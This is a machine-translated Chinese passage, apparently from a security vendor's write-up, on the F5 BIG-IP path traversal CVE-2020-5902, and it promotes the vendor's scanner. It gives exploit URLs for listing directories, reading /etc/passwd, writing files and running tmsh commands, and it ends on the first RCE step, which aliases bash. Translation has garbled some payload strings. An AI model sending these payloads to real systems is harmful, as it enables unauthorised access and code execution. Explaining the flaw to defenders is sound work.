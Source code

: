 ## **4。影响**

许多人错误地认为该漏洞只影响 BIG-IP 应用，但情况更糟，因为它对该产品背后的所有系统都有重大影响，导致**整个基础设施受损**。

### **检查系统是否易受攻击**

如果您想快速行动，检查您的系统是否因该漏洞而暴露，**我们刚刚发布了一款专用扫描器**:BIG-IP 漏洞扫描器[**(CVE-2020-5902)**](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas)。

您可以用最少的设置**快速扫描您的基础架构，节省数小时的手动工作。此外，你可以争取时间打补丁，并确保你是安全的机会主义网络攻击。**

### **根本原因**

从根本上说， [CVE-2020-5902](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902) 是一个路径遍历问题，使得攻击者能够访问 TMUI 功能内的实用程序模块。

情况和 2019 年 12 月 [CVE-2019-19781](https://nvd.nist.gov/vuln/detail/CVE-2019-19781) 公开披露的情况很像。在 Citrix ADC 和 Gateway 中发现的遍历漏洞也有可能导致远程代码执行。

**漏洞利用概述**

如果对这个漏洞的利用是复杂和模糊的，这个漏洞永远不会成为太多的头条新闻。它如此简单的事实使得它广受欢迎并被大量滥用——主要是被脚本小子滥用。

您自己也可以利用此漏洞，只需按照下面的语法创建一个请求负载即可:

**协议** :// **主机** / **UNAUTH_PAGE** ..；**TMUI _ 模块**

其中:

*   协议:http/https

*   主机:目标 IP 地址或主机名

*   un auth _ PAGE:TMUI 应用程序中的页面，您在该页面上获得了未经身份验证的访问权限(例如:/tmui/login.jsp/)

*   TMUI 模块:模块的完整路径，通过它你可以执行特定的操作(更多信息请参考下表)

像往常一样，我们喜欢让你的工作更容易，所以这里有一个表格，上面有 **TMUI 模块**以及如何利用它们的说明。

| **模块** | **剥削** | **有效载荷示例** |
| --- | --- | --- |
| 目录列表 | 列出通过*目录路径* URL 参数指定的文件夹中的文件 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/directory list。JSP？directoryPath=/tmp/ |
| 文件读取 | 读取通过*文件名* URL 参数指定的文件内容 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/fileread . JSP？文件名=/etc/passwd |
| 文件保存 | 使用 POST 方法上传通过*文件名* URL 参数指定的文件和通过*内容* URL 参数指定的文件内容。 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/file save . JSP？文件名=/tmp/测试&内容=测试 |
| tmshCmd | 通过*命令* URL 参数执行预定义的(基于他们的文档)系统命令 | https://HOST/tmui/login.jsp/..；/tmui/local lb/workspace/tmshcmd . JSP？命令=列表+验证+用户 |

## **5。实现 RCE 并带回家一个防火墙**

通过链接 *fileSave* 和 *tmshCmd* 实用模块，可以在 BIG-IP TMUI 上实现远程代码执行。

首先，您需要**发送这个有效负载**，以便能够执行 bash 命令:

```
https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash (GET method)
```
